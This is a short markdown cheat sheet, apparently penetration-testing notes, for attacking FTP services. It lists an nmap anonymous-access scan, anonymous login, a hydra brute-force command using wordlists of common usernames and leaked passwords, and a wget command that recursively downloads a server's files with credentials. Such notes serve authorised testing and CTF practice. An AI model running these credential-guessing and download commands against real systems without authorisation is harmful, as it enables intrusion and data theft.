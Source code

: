 # FTP

## nmap

```shell
nmap -oN nmap/scan_21.logs -p 21 -sV --script ftp-anon $ip
```

## clients

- Check anonymous log in.

```shell
ftp anonymous@$ip
```

- Check for vulnerabilities found during `nmap` enumeration.
- Check common credentials

```shell
hydra \
  -L /usr/share/seclists/Username/top-usernames-shortlist.txt \
  -P /usr/share/seclists/Passwords/darkweb2017-top100.txt \
  $ip ftp
```

- Brute force. 

## Helpers

- If you get the message

```
229 Entering Extended Passive Mode (|||46829|)
```
then make sure to turn off passive mode.

- Recursively download from FTP server using 

```shell
wget -r ftp://username:password@$ip
```
